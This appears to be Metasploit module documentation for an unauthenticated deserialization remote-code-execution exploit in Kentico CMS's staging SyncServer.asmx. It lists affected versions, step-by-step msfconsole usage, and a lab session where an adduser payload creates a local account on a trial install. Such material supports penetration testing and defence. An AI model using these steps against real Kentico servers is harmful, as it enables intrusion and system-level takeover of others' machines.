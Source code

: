 ## Vulnerable Application

[Kentico CMS](www.kentico.com) CMS platform versions 12.0.14 and earlier are affected by an unauthenticated deserialization vulnerability in the Staging Service which can be leveraged by an attacker to execute arbitrary commands in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is triggered by sending a HTTP POST request to the SyncServer.asmx interface ProcessSynchronizationTaskData method stagingTaskData parameter request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 10 using exec and adduser payloads against Kentico v11. The vulnerable application is available for download at https://d82ujmuzqhypi.cloudfront.net/Kentico_11_0_trial.exe, https://d82ujmuzqhypi.cloudfront.net/Kentico_12_0_trial.exe, https://www.kentico.com/download-demo

## Verification Steps
  1. Install a vulnerable Kentico CMS Trial version.
  2. Access web instance admin interface at /admin/
  3. Default credentials are 'administrator' with blank password.
  4. Navigate to `Settings`, then expand `Settings` > `Versioning & Synchronization` > `Staging`
  5. Check `Enable Starging Service` and click `Save`
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/kentico_staging_syncserver`
  8. Do `set RHOSTS ip` (Trial is limited to 127.0.0.1 remote HTTP clients, but paid versions are public websites)
  9. Do `set RPORT port` (installs with a random port within IISExpress for at least Trial versions)
  10. Do `check`
  11. Verify the target is detected
  12. Do `set PAYLOAD cmd/windows/exec`
  13. Do `set CMD calc`
  14. Do `exploit`
  15. Verify `calc.exe` launches. 

## Scenarios

### Kentico CMS v11.0 trial on Windows 10

```
msf5 > use exploit/windows/http/kentico_staging_syncserver
msf5 exploit(windows/http/kentico_staging_syncserver) > show options

Module options (exploit/windows/http/kentico_staging_syncserver):

   Name       Current Setting                    Required  Description
   ----       ---------------                    --------  -----------
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                 yes       The target port (TCP)
   SSL        false                              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /CMSPages/Staging/SyncServer.asmx  yes       Path to SyncServer.asmx
   VHOST                                         no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/kentico_staging_syncserver) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 exploit(windows/http/kentico_staging_syncserver) > set RPORT 62925
RPORT => 62925
msf5 exploit(windows/http/kentico_staging_syncserver) > check
[*] 127.0.0.1:62925 - The service is running, but could not be validated.
msf5 exploit(windows/http/kentico_staging_syncserver) > set PAYLOAD cmd/windows/adduser
PAYLOAD => cmd/windows/adduser
msf5 exploit(windows/http/kentico_staging_syncserver) > exploit

[+] 127.0.0.1:62925 - Payload success!
[*] Exploit completed, but no session was created.
```

```
Microsoft Windows [Version 10.0.18363.720]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net users

User accounts for \\WIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
metasploit
The command completed successfully.


C:\Windows\system32>net user metasploit /del
The command completed successfully.
```

## Notes

  1. The IISExpress config is located in ~/Documents/IISExpress/config/applicationhost.config
  2. Port number can be changed or allow remote access by replacing 'localhost' with '*'
  3. To run IIS on command line, C:\PROGRA~1\IIS Express\iisexpress.exe /site:Kentico11 (etc)
  4. It might be possible to use a CmdStager or FileDropper but couldn't get it working in time. Might be a string limit and has issues with Unicode.
  5. Some reverse or bind payloads work if the environment is right.
  6. Other serialized injections are possible with `ysoserial.exe -f SoapFormatter` but untested.
